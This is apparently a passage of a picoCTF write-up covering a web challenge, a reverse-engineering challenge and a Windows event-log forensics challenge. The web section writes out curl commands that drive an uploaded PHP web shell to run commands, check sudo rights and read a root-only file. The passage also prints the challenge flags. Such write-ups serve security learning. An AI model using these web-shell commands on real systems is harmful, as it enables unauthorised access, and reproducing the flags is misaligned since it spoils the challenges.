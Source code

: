 **Tested the hypothesis:**
```sh
curl "http://standard-pizzas.picoctf.net:50894/uploads/shell.php?cmd=whoami"
```

### Step 4: Accessing root Permissions
If the flag was in a root-only location like we were told, we needed to escalate privileges. sudo -l would reveal if www-data could run commands as root.

**Ran:**
```sh
curl "http://standard-pizzas.picoctf.net:50894/uploads/shell.php?cmd=sudo%20-l"
```

Output confirmed that we could run any command as root without a password.

### Step 5: Searching for the Flag
With root access, we could read any file.

**Listed Root Directory:**
```sh
curl "http://standard-pizzas.picoctf.net:50894/uploads/shell.php?cmd=sudo%20/bin/ls%20/root"
```

*Output: flag.txt*

**Read the flag:**
```sh
curl "http://standard-pizzas.picoctf.net:50894/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt"
```

**Flag:**

`picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}`

## Flag Hunters (Reverse Engineering) - 03/09/25 | ~20 min
The script’s default call is reader(song_flag_hunters, '[VERSE1]'), starting at [VERSE1]. The description mentions a “hidden refrain” not printed by default, implying we need to redirect execution to an unvisited section, likely the secret_intro with the flag.

1. `secret_intro` with the flag (Lines 1-4)
2. `reader` starts at `[VERSE1]` it skips the hidden refrain
3. The input is unsanitized so we can manipulate the input to give us the flag
4. `RETURN [number]` jumps to any line number offering control of the starting point 
5. If we input `RETURN 1` it fails due to the *Crowd:* prefix
6. We can use `;` to seperate commands which will allow `RETURN 1` to execute in the input and in theory return the flag

**Flag:**

`picoCTF{70637h3r_f0r3v3r_a3d964ee}`

## Event-Viewing (Forensics) - 03/10/25 | ~30 min
Somewhere in these Windows Event Logs is the flag.

1. The first thing I did after `cat <file>` was a quick search for CTF keywords but nothing came up
2. After thinking about the process more deeply I thought about what sort of keywords would come up for each event
   1. I search words like `INSTALL` and notcied some Base64 encoded characters in the area I decoded for Part 1 of the flag
3. Next I searched for other events interacting with the installed software `Totally_Legit_Software` and I came across the second part of the Base64 encoded flag
4. The last part took quite a bit longer as the Base64 was less obvious and there was no obvious keyword to search up
   1. After searching for `shutdown` I find the final part of the Base64 encoded flag
